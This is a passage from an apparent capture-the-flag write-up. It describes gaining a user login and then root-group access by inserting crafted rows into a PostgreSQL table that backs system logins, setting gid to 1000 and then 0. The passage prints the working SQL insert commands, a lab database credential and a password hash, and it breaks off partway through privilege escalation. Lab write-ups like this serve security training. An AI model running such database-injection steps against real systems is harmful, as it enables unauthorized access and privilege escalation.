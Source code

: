 - Those shit are from sqlmap, it added those usernames with payloads
- We have `username, passwd, uid, gid, gecos, homedir, shell`
- What happens if we change the the `uid` or `homedir`?
- [This page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) from hacktricks helps a lot 
- First let's grab a password, for this I'm gonna use the password of `testftp` account that we created earlier
- `select * from passwd_table where username='testftp';`
- Values: `testftp  | $1$1ufUTJ64$0V2qspdjqo9VV0Bm2wM6c1 | 2041 | 1001 |       | /var/jail/home | /bin/bash`
- Now I'm gonna create a user with `UID = 1000` and `homedir = /home/penelope`
- `insert into passwd_table values ('fakeusr','$1$1ufUTJ64$0V2qspdjqo9VV0Bm2wM6c1','1001','1001','','/home/penelope','/bin/bash');` 

![](https://i.imgur.com/jHK9Omh.png)

- WTF XD

![](https://i.imgur.com/fww7SD1.png)

- After that I've noticed, that I missed a crucial part in enumeration, I haven't grepped for passwords properlly
- Now let's login with `unixusrmgr:dheu%7wjx8B&`
- `ERROR:  permission denied for relation passwd_table` again!!
- Turns out we can't controll the `uid` & `shell` values
- So let's set the `GID=1000`
- `insert into passwd_table (username, passwd, gid, homedir) values ('fakeusr', '$1$1ufUTJ64$0V2qspdjqo9VV0Bm2wM6c1', 1000, '/home/penelope/');`
- It worked!!
- `select * from passwd_table where username='fakeusr';`

<br>

```js
 username |               passwd               | uid  | gid  | gecos |     homedir     |   shell
----------+------------------------------------+------+------+-------+-----------------+-----------
 fakeusr  | $1$1ufUTJ64$0V2qspdjqo9VV0Bm2wM6c1 | 2043 | 1000 |       | /home/penelope/ | /bin/bash
```

<br>

- Now let's ssh as fakeusr with the password `TxXHseUr`

![](https://i.imgur.com/9fq4oBx.png)

- Cool we got the user.txt

## PRIVESC

- We can control the `gid` value so if we add a user with `gid=0` then we have access to the root group
- `insert into passwd_table (username, passwd, gid, homedir) values ('fakerootusr', '$1$1ufUTJ64$0V2qspdjqo9VV0Bm2wM6c1',0, '/home/penelope/');`
